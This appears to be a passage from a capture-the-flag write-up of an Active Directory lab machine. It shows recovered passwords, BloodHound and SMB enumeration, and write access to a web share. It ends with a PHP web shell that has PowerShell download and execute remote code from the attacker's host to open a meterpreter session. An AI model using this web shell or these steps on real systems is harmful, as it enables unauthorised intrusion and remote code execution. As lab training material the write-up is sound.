 We recover the password `Tikkycoll_431012284` for the user _C.Bum_.

### Domain Enumeration

We'll use [Bloodhound.py](https://github.com/fox-it/BloodHound.py) to gather domain information that will be ingested by [BloodHound](https://github.com/BloodHoundAD/BloodHound).

```bash
# bryan@attacker
bloodhound-python -u 'svc_apache' -p 'S@Ss!K@*t13' -d $domain \
  -ns $rhost --zip --auth-method ntlm -w 4 -c All,LoggedOn
```
{:.nolineno}

Now we'll load the archive into BloodHound, mark _svc\_apache_, _S.Moon_, and _C.Bum_ as owned, and begin to search for relevant information.

#### BloodHound

Unlike our other two owned users, _C.Bum_ is a member of a non-standard group called **_WebDevs_**. 

![C.Bum Groups](groups.png)
_C.Bum is a member of a custom group_

We suspect that this group has some privileges that would make sense for a web developer. Let's check the account's access to the _Web_ share we spotted earlier.

```bash
# bryan@attacker
smbmap -u C.Bum -p 'Tikkycoll_431012284' -H $rhost | tee logs/smb/C.Bum-smbmap.log
```
{:.nolineno}

The user _C.Bum_ has write access to the _Web_ share. If we can write to the web root, we could potentially execute code with a web shell.

```bash
# bryan@attacker
smbclient -U C.Bum //$rhost/Web | tee -a logs/smb/C.Bum-smbclient.log
```
{:.nolineno}

The share does seem to access the web roots of both sites we visited earlier. Writing to the school site is certainly more valuable because it could allow us to execute PHP code.

## Remote Access

Let's assemble a PHP script with a command to establish a meterpreter shell on the target.

```php
<?php
$lhost="10.10.14.9";
$cmd="powershell -ep bypass -w hidden -nop -c \"iex(iwr -useb $lhost).content\"";
echo `$cmd`;
?>
```
{:file="j7An4l.php"}
